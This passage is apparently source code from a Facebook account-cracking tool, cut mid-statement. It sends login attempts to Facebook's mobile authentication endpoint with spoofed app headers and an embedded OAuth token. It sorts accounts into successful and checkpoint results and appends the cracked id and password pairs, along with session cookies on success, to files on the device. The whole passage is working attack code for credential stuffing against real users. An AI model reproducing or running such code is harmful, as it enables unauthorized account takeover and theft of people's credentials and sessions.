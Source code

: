                         "source": "login","error_detail_type": "button_with_disabled",
                        "enroll_misauth": "false",
                        "generate_session_cookies": "1",
                        "generate_machine_id": "1",
                        "fb_api_req_friendly_name": "authenticate",}
                        headers={"Accept-Encoding": "gzip, deflate",
                        "Accept": "*/*","Connection": "keep-alive",
                        "User-Agent": '[FBAN/FB4A;FBAV/'+str(random.randint(11,99))+'.0.0.'+str(random.randint(1111,9999))+';FBBV/'+str(random.randint(1111111,9999999))+';'f'{M2}',
                        "Authorization": "OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32",
                        "X-FB-Friendly-Name": "authenticate",
                        "X-FB-Connection-Type": "unknown",
                        "Content-Type": "application/x-www-form-urlencoded",
                        "X-FB-HTTP-Engine": "Liger","Content-Length": "329",}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        cookie = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print(f'\r\r{R}<{W}={R}>{W}-{R}<{G}POCO-OK{R}>{G} '+ids+' | '+pas+'\033[1;97m')
                                        #print(f'\r\r{R}<{W}={R}>{W}-{R}<{G}COOKIES{R}>{G} '+cookie);linex()
                                        open('/sdcard/POCO-FILE-M2-OK.txt','a').write(ids+'|'+pas+'|'+coki+'\n')
                                        oks.append(ids)
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print(f'\r\r{R}<{W}={R}>{W}-{R}<{P}POCO-CP{R}>{P} '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/POCO-FILE-M2-CP.txt','a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                        else:continue
                loop+=1
        except Exception as e:
                pass
#--------------------< END CODE >--------------------#
poco()
